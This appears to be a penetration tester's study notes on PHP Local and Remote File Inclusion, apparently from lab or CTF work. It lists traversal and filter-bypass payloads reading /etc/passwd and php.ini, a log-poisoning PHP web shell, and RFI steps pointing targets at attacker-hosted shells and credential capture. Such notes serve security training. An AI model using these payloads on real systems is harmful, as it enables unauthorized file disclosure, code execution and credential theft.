 **Remote File Inclusion (RFI):** The file is loaded from a remote server (Best: You can write the code and the server will execute it). In php this is **disabled** by default (**allow_url_include**). 

**Local File Inclusion (LFI):** The sever loads a local file.
# Guides

1. [File Inclusion/Path traversal | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
2. [Comprehensive Guide on Local File Inclusion (LFI) - Hacking Articles](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)

Check the source of the website and the website fuzzing report for potential parameters which may be vulnerable.

## Automatic Tool

1. [GitHub - kurobeats/fimap: fimap is a little python tool which can find, prepare, audit, exploit and even google automatically for local and remote file inclusion bugs in webapps.](https://github.com/kurobeats/fimap)
# Local File Include

Local File Inclusion (LFI) is a vulnerability that allows an attacker to include files on the server through the web browser. This can lead to sensitive information disclosure, code execution, and other security issues. 

To exploit LFI, an attacker needs to find a vulnerable parameter in the application that includes files. This parameter can be a URL, a file path, or any other input that gets included in the server-side code. 

There are several techniques to exploit LFI, such as directory traversal, null byte injection, and using wrappers like php://input or data://. 

1. Just try the parameter (e.g. `book.php?bookNumber=/etc/password`) and see what happens
2. Supported wrappers, see [PHP: Supported Protocols and Wrappers - Manual](https://secure.php.net/manual/en/wrappers.php)
3. If files can be viewed
	1. If the log file is available, see [[#Log Poisoning]]
	2. Search for credentials, see [[4. Post Exploitation/Valuable Files]]
4. Potentially be able to get the source of the site using the wrappers, see [[#PHP Wrappers]]
5. Vulnerable PHP functions: require, require_once, include, include_once

## PHP Wrappers

### Website Source Retrieval

These return the Base64 of the site, see [[Base64]] to decode.

- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=view`
- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=upload`
- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=index`
### Unzip File

[[Web#ZIP Wrapper LFI]]
## LFI Bypass Filtering

See [[Web Application Firewall (WAF)]]

- Null byte: `http://10.10.10.80/?op=../../../etc/passwd%00&secretname=2f4823095649cab523452053417cded1dee9259e`
- Double encoding: `http://10.10.10.80/?op=%252e%252e%252fetc%252fpasswd&secretname=2f4823095649cab523452053417cded1dee9259e`
- Path truncation: `http://10.10.10.80/?op=../../../../[…]../../../../../etc/passwd&secretname=2f4823095649cab523452053417cded1dee9259e`
## LFI Shell

`curl -s 'http://192.168.120.85/classes/phpmailer/class.cs_phpmailer.php?classes_dir=php://filter/read=convert.base64-encode/resource=/etc/php5/apache2/php.ini%00%27%7C base64 -d 2>/dev/null`

## Log Poisoning

Log poisoning is a technique used to manipulate log files on a server by injecting malicious input. This can be used in combination with Local File Inclusion (LFI) vulnerabilities to escalate an attack. 

Effectively if you can view a log file using LFI, you can manipulate the logs by maybe inputting a username which is actually a PHP web shell, then navigating to the log file using LFI, which may run the shell.

### Walkthrough

1. [RCE via LFI Log Poisoning - The Death Potion | by Jerry Shah (Jerry) | Medium](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d#:~:text=What%20is%20log%20poisoning%20%3F,input%20to%20the%20server%20log)

### Guide

1. Find the log file using LFI
2. Find the technology the log file is for, e.g. FTP
3. Generate a log message using that technology with a malicious entry, e.g. FTP username: `<?php system($_GET[‘commandInjection’]); ?>` 
4. Navigate to the log file using LFI
5. `_/var/log/vsftpd.log&commandInjection=ifconfig

### Log File Locations

1. `/var/log/auth.log`
2. `/var/log/vsftpd.log`

## PHP Session

If the website uses the PHP Session (PHPSESSID) cookie.
[File Inclusion/Path traversal | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-php-sessions)

# Remote File Include

Remote File Inclusion (RFI) is a vulnerability similar to LFI, but instead of including local files, it includes files from a remote server. This can be particularly dangerous as it allows an attacker to execute code on the server by including a malicious file hosted on their own server.

To exploit RFI, an attacker needs to find a vulnerable parameter in the application that includes files from a remote server. This parameter can be a URL pointing to the remote file. 

1. Replace the parameter with the remote IP of your machine, e.g. `/blog/?lang=\\10.10.14.29\\test`
2. Host a Python webserver
3. Point the website at a [[Web|Web Shell]] 

## Guide

1. Point the RFI at a [[3. Exploitation/Obtaining Remote Shells/Generic Tooling/Netcat]] to see the request made first
	1. If a SMB request is made, see [[2. Enumeration/TCP/445. SMB/1. Guide#Responder|SMB Responder]] to capture credentials
2. Can be used to check for internal ports which are open, see [[Server-side request forgery (SSRF)]]


